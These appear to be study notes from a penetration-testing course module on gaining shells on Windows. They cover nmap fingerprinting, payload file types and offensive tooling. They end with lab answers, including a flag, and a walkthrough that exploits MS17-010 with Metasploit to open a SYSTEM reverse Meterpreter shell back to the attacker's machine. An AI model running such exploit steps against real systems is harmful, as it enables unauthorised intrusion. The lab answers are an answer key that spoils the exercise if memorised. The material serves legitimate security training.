 # Infiltrating Windows
## Enumerating Windows & Fingerprinting Methods
- A typical response from a Windows host will either have TTL equals to `32` or `128`.
- Use nmap: `sudo nmap -v -O <ip>` or `sudo nmap -A -Pn <ip>`
- Banner grab to enumerate ports: `sudo nmap -v <ip> --script banner.nse` 

## Payload Types to Consider
- **DLLs**: A Dynamic Linking Library (DLL) is a library file used in Microsoft operating systems to provide shared code and data that can be used by many different programs at once. These files are modular and allow us to have applications that are more dynamic and easier to update. As a pentester, injecting a malicious DLL or hijacking a vulnerable library on the host can elevate our privileges to SYSTEM and/or bypass User Account Controls.

- **Batch**: Batch files are text-based DOS scripts utilized by system administrators to complete multiple tasks through the command-line interpreter. These files end with an extension of `.bat`. We can use batch files to run commands on the host in an automated fashion. For example, we can have a batch file open a port on the host, or connect back to our attacking box. Once that is done, it can then perform basic enumeration steps and feed us info back over the open port.

- **VBS**: VBScript is a lightweight scripting language based on Microsoft's Visual Basic. It is typically used as a client-side scripting language in webservers to enable dynamic web pages. VBS is dated and disabled by most modern web browsers but lives on in the context of Phishing and other attacks aimed at having users perform an action such as enabling the loading of Macros in an excel document or clicking on a cell to have the Windows scripting engine execute a piece of code.

- **MSI**: .MSI files serve as an installation database for the Windows Installer. When attempting to install a new application, the installer will look for the .msi file to understand all of the components required and how to find them. We can use the Windows Installer by crafting a payload as an `.msi` file. Once we have it on the host, we can run `msiexec` to execute our file, which will provide us with further access, such as an elevated reverse shell.

- **Powershell**: Powershell is both a shell environment and scripting language. It serves as Microsoft's modern shell environment in their operating systems. As a scripting language, it is a dynamic language based on the .NET Common Language Runtime that, like its shell component, takes input and output as .NET objects. PowerShell can provide us with a plethora of options when it comes to gaining a shell and execution on a host, among many other steps in our penetration testing process.

## Payload Generation
|Resource|Description|
|-|-|
|`MSFVenom & Metasploit-Framework`|MSF is an extremely versatile tool for any pentester's toolkit. It serves as a way to enumerate hosts, generate payloads, utilize public and custom exploits, and perform post-exploitation actions once on the host.|
|`Payloads All The Things`|[Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology.|
|`Mythic C2 Framework`|[Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a Command and Control Framework and toolbox for unique payload generation.|
|`Nishang`|[Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.|
|`Darkarmour`|[Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts.|

## CMD-Prompt and Power[Shell]s for Fun and Profit.
Use CMD when:
- You are on an older host that may not include PowerShell.
- When you only require simple interactions/access to the host.
- When you plan to use simple batch files, net commands, or MS-DOS native tools.
- When you believe that execution policies may affect your ability to run scripts or other actions on the host.

Use PowerShell when:
- You are planning to utilize cmdlets or other custom-built scripts.
- When you wish to interact with .NET objects instead of text output.
- When being stealthy is of lesser concern.
- If you are planning to interact with cloud-based services and hosts.
- If your scripts set and use Aliases.

## Question
1. What file type is a text-based DOS script used to perform tasks from the cli? (answer with the file extension, e.g. '.something') **Answer: .bat**
2. What Windows exploit was dropped as a part of the Shadow Brokers leak? (Format: ms bulletin number, e.g. MSxx-xxx) **Answer: MS17-010**
3. Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\ **Answer: EB-Still-W0rk$**
    - Start a nmap scan and detect vulnerable SMB version:
        ```
        $ sudo nmap -sV -O 10.129.96.46
        Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-24 10:59 +07
        Nmap scan report for 10.129.96.46
        Host is up (0.35s latency).
        Not shown: 995 closed tcp ports (reset)
        PORT     STATE SERVICE      VERSION
        80/tcp   open  http         Microsoft IIS httpd 10.0
        135/tcp  open  msrpc        Microsoft Windows RPC
        139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
        445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
        5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        ```
    - Use `msfconsole` with `windows/smb/ms17_010_psexec` module to exploit (set `SHARE` → `C$`):
        ```
        msf > use windows/smb/ms17_010_psexec
        msf exploit(windows/smb/ms17_010_psexec) >> set RHOSTS 10.129.96.46
        RHOSTS => 10.129.96.46
        msf exploit(windows/smb/ms17_010_psexec) >> set SHARE C$
        SHARE => C$
        msf exploit(windows/smb/ms17_010_psexec) >> set LHOST 10.10.14.147
        LHOST => 10.10.14.147
        msf exploit(windows/smb/ms17_010_psexec) >> exploit
        [*] Started reverse TCP handler on 10.10.14.147:4444 
        [*] 10.129.96.46:445 - Target OS: Windows Server 2016 Standard 14393
        [*] 10.129.96.46:445 - Built a write-what-where primitive...
        [+] 10.129.96.46:445 - Overwrite complete... SYSTEM session obtained!
        [*] 10.129.96.46:445 - Selecting PowerShell target
        [*] 10.129.96.46:445 - Executing the payload...
        [+] 10.129.96.46:445 - Service start timed out, OK if running a command or non-service executable...
        [*] Sending stage (177734 bytes) to 10.129.96.46
        [*] Meterpreter session 1 opened (10.10.14.147:4444 -> 10.129.96.46:49675) at 2025-09-23 23:24:25 -0500

        (Meterpreter 1)(C:\Windows\system32) > cd ../../
        (Meterpreter 1)(C:\) > dir
        Listing: C:\
        ============

        Mode              Size    Type  Last modified              Name
        ----              ----    ----  -------------              ----
        040777/rwxrwxrwx  0       dir   2020-10-05 18:18:31 -0500  $Recycle.Bin
        100666/rw-rw-rw-  1       fil   2016-07-16 08:18:08 -0500  BOOTNXT
        040777/rwxrwxrwx  0       dir   2020-10-02 19:22:46 -0500  Documents and Settings
        040777/rwxrwxrwx  0       dir   2016-07-16 08:23:21 -0500  PerfLogs
        040555/r-xr-xr-x  4096    dir   2020-10-05 20:51:03 -0500  Program Files
        040777/rwxrwxrwx  4096    dir   2020-10-05 20:51:03 -0500  Program Files (x86)
        040777/rwxrwxrwx  4096    dir   2020-10-02 12:28:44 -0500  ProgramData
        040777/rwxrwxrwx  0       dir   2020-10-02 19:22:47 -0500  Recovery
        040777/rwxrwxrwx  4096    dir   2021-09-23 10:39:44 -0500  System Volume Information
        040555/r-xr-xr-x  4096    dir   2020-10-05 20:51:25 -0500  Users
        040777/rwxrwxrwx  24576   dir   2021-10-19 16:43:11 -0500  Windows
        100444/r--r--r--  389408  fil   2016-11-20 18:42:45 -0600  bootmgr
        100666/rw-rw-rw-  14      fil   2021-10-18 15:52:34 -0500  flag.txt
        040777/rwxrwxrwx  4096    dir   2021-10-18 15:51:10 -0500  inetpub
        000000/---------  0       fif   1969-12-31 18:00:00 -0600  pagefile.sys

        (Meterpreter 1)(C:\) > cat flag.txt
        EB-Still-W0rk$
        ```